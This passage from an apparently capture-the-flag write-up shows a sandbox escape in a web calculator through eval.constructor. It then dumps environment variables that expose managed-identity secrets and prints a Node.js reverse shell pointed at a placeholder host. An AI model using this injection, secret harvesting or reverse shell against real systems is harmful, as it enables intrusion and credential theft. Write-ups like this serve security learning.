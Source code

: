 So cos, eval, floor are returning somehting else than `{ result: x }`? Lets see if I can use them.

```bash
> eval("3+2")
{ result: 5 }
> eval.constructor
{}
> eval.constructor("test")
{}
> eval.constructor("test")()
{ error: {} }
> eval.constructor("return 1")()
{ result: 1 }
> eval.constructor("return Math.floor(3.12)")()
{ result: 3 }
```

Aiiee, so we're basically here running plain javascript code. Lets check process.env:

```bash
> eval.constructor("return process.env")()
{
  result: {
    CONTAINER_APP_HOSTNAME: 'grinchcalculator--eilaypv.ambitiousbeach-e7bbe16d.norwayeast.azurecontainerapps.io',
    KUBERNETES_SERVICE_PORT: '443',
    KUBERNETES_PORT: 'tcp://10.0.0.1:443',
    NODE_VERSION: '19.2.0',
    HOSTNAME: 'grinchcalculator--eilaypv-7fcb769b5d-8zzjt',
    YARN_VERSION: '1.22.19',
    IDENTITY_HEADER: 'cd580b65-8fa2-4dd7-8d80-29a1c4c54298',
    HOME: '/root',
    CONTAINER_APP_ENV_DNS_SUFFIX: 'ambitiousbeach-e7bbe16d.norwayeast.azurecontainerapps.io',
    CONTAINER_APP_REVISION: 'grinchcalculator--eilaypv',
    KUBERNETES_PORT_443_TCP_ADDR: '10.0.0.1',
    PATH: '/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin',
    KUBERNETES_PORT_443_TCP_PORT: '443',
    KUBERNETES_PORT_443_TCP_PROTO: 'tcp',
    MSI_ENDPOINT: 'http://localhost:42356/msi/token',
    MSI_SECRET: 'cd580b65-8fa2-4dd7-8d80-29a1c4c54298',
    CONTAINER_APP_PORT: '80',
    KUBERNETES_SERVICE_PORT_HTTPS: '443',
    KUBERNETES_PORT_443_TCP: 'tcp://10.0.0.1:443',
    IDENTITY_ENDPOINT: 'http://localhost:42356/msi/token',
    CONTAINER_APP_NAME: 'grinchcalculator',
    KUBERNETES_SERVICE_HOST: '10.0.0.1',
    PWD: '/app'
  }
}
```

Bingo! I smell a reverse shell! Google a nodejs reverse shell quickly:

```javascript
(()=>{
    var net = require('net'),
        cp = require('child_process'),
        sh = cp.spawn('/bin/sh', []);
    var client = new net.Socket();
    client.connect(8080, 'IP.ADDR.HERE', function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})()
```